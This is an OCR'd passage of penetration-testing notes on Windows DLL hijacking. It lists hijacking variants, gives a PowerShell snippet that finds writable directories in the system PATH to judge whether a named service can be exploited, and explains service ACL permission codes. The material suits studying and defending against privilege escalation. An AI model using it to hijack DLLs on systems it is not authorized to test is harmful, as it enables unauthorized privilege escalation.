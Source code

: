 ```powershell
# 3. 16-bit system dir  
# 4. Windows dir  
# 5. Current working directory  
# 6. Directories in %PATH%  :contentReference[oaicite:1]{index=1}

# Variants:
# • Relative-path hijacking: place exe+DLL in writable location  
# • Phantom-hijacking: drop DLL matching a missing dependency  
# • DLL redirection via manifest or .local files :contentReference[oaicite:2]{index=2}

# To detect vulnerable services:
# - Use ProcMon to catch missing DLL load attempts  
# - Look for insecure ACLs on service registry or executable directories


# Find Writable Location
$WritableDirectory = $null
$Path = (Get-ItemProperty -Path "Registry::HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Session Manager\Environment" -Name "PATH").path
$Path -Split ";" | % {
    try {
        [IO.File]::OpenWrite("$_\x.txt").close()
        Remove-Item "$_\x.txt"
        $WritableDirectory = $_
    } catch {}
}

if ($WritableDirectory -eq $null) {
    Write-Host "No writable directories in PATH, FJTWSVIC is not exploitable"
    Exit 1
}
```
##### To check service permissions
```powershell
sc sdshow <ServiceName>
```
 
 Each ACE follows this pattern: `(A;;permissions;;;SID)` whereas in `(A;FA;permissions;;;SID)` , `FA` to do failed audit logging for specified permissions.
 
 **Common Permission Codes:**
- **CC** - SERVICE_QUERY_CONFIG
- **DC** - Change_Config
- **LC** - SERVICE_QUERY_STATUS
- **SW** - SERVICE_ENUMERATE_DEPENDENTS
- **RP** - SERVICE_START
- **WP** - SERVICE_STOP
- **DT** - SERVICE_PAUSE_CONTINUE
- **LO** - SERVICE_INTERROGATE
- **CR** - SERVICE_USER_DEFINED_CONTROL
- **RC** - READ_CONTROL
- **WD** - WRITE_DAC
- **WO** - WRITE_OWNER
- **SD** - DELETE

